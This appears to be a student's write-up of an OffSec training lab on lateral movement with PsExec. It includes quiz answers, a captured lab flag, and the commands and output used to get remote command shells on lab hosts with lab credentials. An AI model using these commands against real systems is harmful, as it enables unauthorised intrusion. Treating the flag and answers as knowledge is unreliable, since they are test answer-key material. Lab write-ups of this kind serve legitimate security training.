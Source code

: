 Topics: PsExec
# Questions 1
Start VM Group 1 and repeat the steps discussed in this section. Which system folder (that will become a share name) needs to be shared in order for PsExec to connect remotely?
# Answer
ADMIN$

# PsExec is a very versatile tool that is part of the SysInternals suite developed by Mark Russinovich. It's intended to replace telnet-like applications and provide remote execution of processes on other systems through an interactive console.

# It is possible to misuse this tool for lateral movement, but three requisites must be met. First, the user that authenticates to the target machine needs to be part of the Administrators local group. Second, the ADMIN$ share must be available, and third, File and Printer Sharing has to be turned on.

# To execute the command remotely, PsExec performs the following tasks:
- Writes psexesvc.exe into the C:\Windows directory
- Creates and spawns a service on the remote host
- Runs the requested program/command as a child process of psexesvc.exe

xfreerdp /u:offsec /p:lab /v:192.168.195.74

# Open powershell
PS C:\Tools\SysinternalsSuite> ./PsExec64.exe -i  \\FILES04 -u corp\jen -p Nexus123! cmd

C:\Windows\system32>hostname
FILES04
C:\Windows\system32>whoami
corp\jen

# Questions 2
Start VM Group 2 and connect as the offsec user on client74. Then try to use PsExec to move laterally to web04 in order to get the flag located on jen's desktop.
# Answer
OS{b8ddb3c04d86488995ffafd0c049e68b}

xfreerdp /u:offsec /p:lab /v:192.168.195.74
# Open powershell
PS C:\Tools\SysinternalsSuite> ./PsExec64.exe -i  \\WEB04 -u corp\jen -p Nexus123! cmd

C:\Users\jen\Desktop>type flag.txt
OS{b8ddb3c04d86488995ffafd0c049e68b}

